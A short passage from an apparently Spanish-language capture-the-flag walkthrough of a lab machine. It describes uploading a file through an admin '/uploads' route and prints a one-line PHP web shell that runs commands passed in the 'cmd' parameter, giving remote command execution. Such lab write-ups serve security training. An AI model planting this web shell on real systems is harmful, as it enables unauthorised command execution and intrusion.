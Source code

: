 
Siendo admin ya tenemos acceso a la ruta '/uploads', donde podemos probar subir un script en php.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/oopsie/esc5.png" alt="under" oncontextmenu="return false;">
</div>
<br>
<strong>Shell PHP</strong>:
```php
<?php
system($_GET["cmd"]);
?>
```

Subiendo el archivo y llendo a '/uploads/' usando la variable cmd vemos que tenemos ejecución remota de comandos.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/oopsie/RCE.png" alt="under" oncontextmenu="return false;">
</div>
